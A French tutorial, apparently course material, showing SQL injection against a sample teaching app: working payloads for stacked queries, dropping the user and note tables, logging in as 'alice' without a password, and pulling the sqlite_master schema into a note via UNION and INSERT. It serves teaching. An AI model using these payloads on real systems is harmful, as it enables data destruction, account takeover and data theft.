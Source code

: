 # Injections pour l'application exemple


## base d'injection pour **batch mode**

Rend le SQL valide et permet d'injecter une autre requete:
- on n'a pas besoin que la requête d'origine fonctionne
- juste qu'elle soit syntaxiquement valide
- pour pouvoir exécuter notre truc après
- par contre on est aveugle qu résultat

### Concretement
1. dans l'appli, choisis connexion
2. dans le champ nom tape le SQL suivant
```sql
'; --
```
3. complète avec un mot de passe "toto"

La requête complète devient alors:
```sql
SELECT * FROM MUtilisateur WHERE nom = ''; --' AND motDePasse = 'toto'
```
- la première requête SQL est **SELECT * FROM MUtilisateur WHERE nom = '';**
- le "--" est un commentaire en SQL, donc tout ce qui suit est ignoré 
- on peut donc avoir quelque chose qui est du SQL valide
- on a créé un espace entre ; et -- pour taper n'importe quelle commande SQL!!!!!!!

### injection destructrice

1. dans l'appli crée quelques comptes normalement (pour avoir des données)
2. tu peux aller regarder ce qu'il y a dedans avec DataGrip
3. dans l'appli, choisis connexion
4. dans le champ nom tape le SQL suivant
```sql
';    DROP TABLE IF EXISTS MNote; DROP TABLE IF EXISTS MUtilisateur;    --
```
5. complète avec un mot de passe quelquonque de 4 car ou plus

Le SQL devient:
```sql
SELECT * FROM MUtilisateur WHERE nom = '';    DROP TABLE IF EXISTS MNote; DROP TABLE IF EXISTS MUtilisateur;    --' AND motDePasse = 'toto'
```

On a donc:
- une première requête valide qui ne retourne rien, la fonction de l'application ne marchera pas, mais honnêtement, on s'en fout
- la deuxième requête est notre réel objectif, elle va supprimer toutes les données
- le commentaire permet d'ignorer la fin de la première requête


## Modifier une requête légitime

On va essayer de se connecter en tant que n'importe quel utilisateur pour tromper le controle d'accès.

On voudrait se connecter en tant que "alice" sans connaitre le mot de passe.
1. dans l'appli, crée plusieurs comptes dont un "alice"
2. dans l'appli, on déconnecte puis on choisi connexion
3. dans le champ nom tape le SQL suivant
```sql
alice'; --
```
4. dans le mot de passe on tape ce qu'on veut

```sql
SELECT * FROM MUtilisateur WHERE nom = 'alice';--' AND motDePasse = 'toto'
```

En complétant la requête et en ignorant le test sur le mot de passe, on rentre dans n'importe quel compte.

## recuperer le resultat d'une requete

### Injection avec une union

Les injections précédentes mais pas de collecter de l'information. 

Une injection avec union permet de :
1. exécuter une sous-requête
2. prendre le résultat de cette sous-requête 
3. faire l'union avec le résultat de la requête d'origine
4. et du coup avoir dans notre entrée de BD le résultat de la sous-requête
5. si l'application nous affiche ensuite ce champ de donnée on a accompli
  - une technique qui permet de taper une commande
  - ensuite lire de résultat

Les conditions:
- il faut trouver une action SQL qui modifie la BD
- monter une union syntaxiquement correcte

Dans notre application, notre cible va être la création d'un compte.
```sql
bob', 'password') UNION SELECT (SELECT GROUP_CONCAT(sql, '; ') AS creation_statements FROM sqlite_master WHERE type = 'table' AND sql IS NOT NULL),sqlite_version(); --
```
- ce que je veux exécuter c'est **(SELECT GROUP_CONCAT(sql, '; ') AS creation_statements FROM sqlite_master WHERE type = 'table' AND sql IS NOT NULL)**
- ça me permet de voir le schéma de la base de données et donc toute sa structure pour pouvoir faire des requêtes plus précises
- le union permet de créer un autre tuple dans le résultat de la requête d'origine et de le faire créer
- si j'ai un moyen de voir ce résultat depuis l'application, j'ai gagné
- ici on va simplement demander la liste des utilisateurs.


### Attends mais il y a d'autres solutions pour ça non?

- si j'ai trouvé un spot d'injection, je peux exécuter n'importe quelle commande SQL
- je pourrais trouver une table que je vois ailleurs dans l'appli comme ici mes notes
- monter une base de requête SQL qui permet d'exécuter une commande, prendre le résultat et créer une note avec
- et hop je peux lire le résultat

#### Attaque

Etant donné une commande SQL X que je veux exécuter. Dans mon exemple, j'utiliserai:
```sql
(SELECT GROUP_CONCAT(sql, '; ') AS creation_statements FROM sqlite_master WHERE type = 'table' AND sql IS NOT NULL)
```

Attaque pour la commande :
1. je me crée un compte comme d'habitude
2. en listant les utilisateurs, je retrouve mon **ID**, dans mon exemple on va dire que c'est 4
3. je crée un compte avec le nom
```sql 
alice','password'); INSERT INTO MNote (note, utilisateurID) VALUES((X)), ID);-- 
```
4. concretement pour mon exemple, ça donne
```sql
alice','password'); INSERT INTO MNote (note, utilisateurID) VALUES((SELECT GROUP_CONCAT(sql, '; ') AS creation_statements FROM sqlite_master WHERE type = 'table' AND sql IS NOT NULL), 4);-- 
```
5. la création du compte a sans doute échoué, mais on s'en fout
6. en se connectant sur mon compte
7. je peux aller lire mes notes
8. le résultat de la requête sql est dans une note
